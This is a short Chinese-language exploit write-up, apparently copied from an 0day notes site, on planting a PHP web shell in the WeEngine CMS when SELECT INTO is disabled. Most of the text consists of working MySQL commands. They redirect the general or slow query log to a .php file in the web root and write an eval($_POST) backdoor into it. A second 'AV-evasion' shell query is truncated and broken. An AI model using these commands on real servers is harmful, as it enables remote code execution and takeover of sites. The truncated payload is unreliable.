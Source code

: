 # 微擎 绕过禁用函数写 shell

> 原文：[http://book.iwonder.run/0day/微擎/1.html](http://book.iwonder.run/0day/微擎/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1.站点设置里面打开调试

![image](img/7f4cf0eb5d93bd6e56c45f96b35009b5.png)

### 2.执行语句

select into 被禁止

![image](img/6db45c82b8daaafe17e2495acdb44e66.png)

### 3.利用日志文件写 shell

```
show variables like '%general%';  #查看配置

set global general_log = on;  #开启 general log 模式

set global general_log_file = '/var/www/html/1.php';   #设置日志目录为 shell 地址

select '<?php eval($_POST[cmd]);?>'  #写入 shell 
```

![image](img/1698f8325967f23bdb0c0e478b4bd8f5.png)

### 4.SQL 查询免杀 shell 的语句

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$ 
```

### 补充:来自土司@GuoKerSb 的分享

在无法修改 general_log_file 指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动 slow_query_log（慢查询日志，默认关闭）来写 shell

```
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/1.php';
select '<?php eval($_POST[cmd]);?>' or sleep(11); 
```

## 四、参考链接

> [https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html](https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html)


